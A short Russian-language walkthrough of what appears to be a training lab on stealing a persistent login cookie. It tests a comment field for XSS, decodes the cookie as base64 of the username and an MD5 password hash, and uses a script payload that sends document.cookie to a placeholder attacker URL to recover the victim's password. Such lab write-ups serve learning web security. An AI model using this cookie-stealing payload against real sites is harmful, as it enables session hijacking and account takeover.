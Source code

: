 хранит хэш пароля пользователя в файле cookie. Лаборатория также содержит XSS-уязвимость в функции комментариев.

## Задача
- Взломать carlos и удалить акк

## Вводные данные

- Ваши учетные данные: `wiener:peter`
- Имя пользователя жертвы: `carlos`

# Разведка

#### Проверка xss атаки в коментах

Простая отражённая атака `<script>alert('XSS!');</script>`

#### Проверка реализации входа в систему

stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw

Данные из base64: wiener:51dc30ddc473d43a6011e9ebba6ca770

Формат записи: base64(username:MD5(password))

# Атака

Для входа нужен username и password

username - carlos

password - получим при xss атаке при которой украдём `stay-logged-in` так как нет httpOnly


#### XSS атака

```
<script>document.location='MyUrlHack'+document.cookie</script>
```
![[Pasted image 20250121150710.png]]

carlos:26323c16d5f4dabff3bb136f2460a943
password - onceuponatime
